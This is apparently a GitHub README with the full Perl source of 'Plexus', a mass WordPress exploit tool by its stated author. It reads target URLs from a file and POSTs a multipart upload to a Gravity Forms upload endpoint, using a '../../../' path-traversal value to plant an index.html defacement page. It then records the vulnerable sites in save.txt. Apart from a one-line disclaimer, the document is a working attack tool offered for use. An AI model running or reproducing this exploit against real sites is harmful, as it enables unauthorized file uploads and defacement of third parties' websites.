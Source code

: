 # Plexus

Plexus is a upload of Index , in websites with 'WordPress' Failure

Powered by Gabriel Packy
  

![Alt text](https://i.ytimg.com/vi/l1nEbN2n3Xo/maxresdefault.jpg "Screenshot")


# Use
```
cd Plexus
perl Plexus.pl targets.txt
```
# Author 

Gabriel Packy.
Github :- github.com/gblpcky
 
# Donate and contact :3 

Email:  gblpacky7@hotmail.com

If you like my code :3 buy me a coffee or tea (i love tea)

# Be Carefuly

Do not use this script to harm someone.


 
# Code...

#!/usr/bin/perl -U

use Win32::Console::ANSI;
use Term::ANSIColor;
use HTTP::Request;
use LWP::UserAgent;
use IO::Select;
use HTTP::Response;
use LWP::UserAgent;
use Win32::Console::ANSI;
use Term::ANSIColor;
use utf8;
use LWP::UserAgent;
use Win32::Console::ANSI;
use Term::ANSIColor;
use utf8;

system(($^O eq 'MSWin32') ? 'cls' : 'clear');
system "cls";
print colored q{ 
.     .       .  .   . .   .   . .    +  .
  .     .  :     .    .. :. .___---------___.
       .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
    .  :       .  .  .:../:            . .^  :.:\.
        .   . :: +. :.:/: .   .    .        . . .:\
 .  :    .     . _ :::/:               .  ^ .  . .:\
  .. . .   . - : :.:./.                        .  .:\
  .      .     . :..|:                    .  .  ^. .:|
    .       . : : ..||        .                . . !:|
  .     . . . ::. ::\(                           . :)/
 .   .     : . : .:.|. ######              .#######::|
  :.. .  :-  : .:  ::|.#######           ..########:|
 .  .  .  ..  .  .. :\ ########          :######## :/
  .        .+ :: : -.:\ ########       . ########.:/
    .  .+   . . . . :.:\. #######       #######..:/
      :: . . . . ::.:..:.\           .   .   ..:/
   .   .   .  .. :  -::::.\.       | |     . .:/
      .  :  .  .  .-:.":.::.\             ..:/
 .      -.   . . . .: .:::.:.\.           .:/
.   .   .  :      : ....::_:..:\   ___.  :/
   .   .  .   .:. .. .  .: :.:.:\       :/
     +   .   .   : . ::. :.:. .:.|\  .:/|
     .         +   .  .  ...:: ..|  --.:|
.      . . .   .  .  . ... :..:.."(  ..)"
 .   .       .      :  .   .: ::/  .  .::\
},'bold';
print "\n\n";
print"         --=[";
print colored(" Plexus - WordPress Exploit ",'on_green');
print"]\n";
print"         --=[";
print colored(" Gabriel Packy ",'on_red');
print"]\n";

my $usage = " \nperl $0 <targets.txt>\n perl $0 targets.txt";
die "$usage" unless $ARGV[0];

open(tarrget,"<$ARGV[0]") or die "$!";
while(<tarrget>){
chomp($_);
$target = $_;
my $path = "/?gf_page=upload"; sleep(1);

print "\n  [TARGET] => $target\n\n";
my $ua = LWP::UserAgent->new(ssl_opts => { verify_hostname => 0 });
$ua->timeout(10);
$ua->agent("Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31");
my $exploit = $ua->post("$target/$path", Cookie => "", Content_Type => "form-data", Content => [file => ["index.jpg"], field_id => "3", form_id => "1",gform_unique_id => "../../../", name => "index.html"]);

print "  [";
print colored ("Work",'bold on_blue'); sleep(1);
print "]","\n";

if ($exploit->decoded_content =~ /_input_3_index.html/) {
print "  [";
print colored ("WP_Vulnerable",'bold on_red'),; sleep(1);
print "]";
print " Upload Idex\n";	
print "  [";
print colored ("Okay",'bold on_green'),; sleep(1);
print "]";
print " Index Uploaded\n";
print "  [";
print colored ("Target in Index",'bold on_green'),; sleep(1);
print "]";
print " $target/wp-content/uploads/_input_3_index.html\n";	
	open(save, '>>save.txt');
	
    print save "$target/wp-content/uploads/_input_3_index.html\n";
	
    close(save);
}

else { 
print "  [";
print colored ("Error 571",'bold on_red'),; sleep(1);
print "]";
print " Oops.. Your Target is Not Vulnerable\n";
sleep(1);}

}
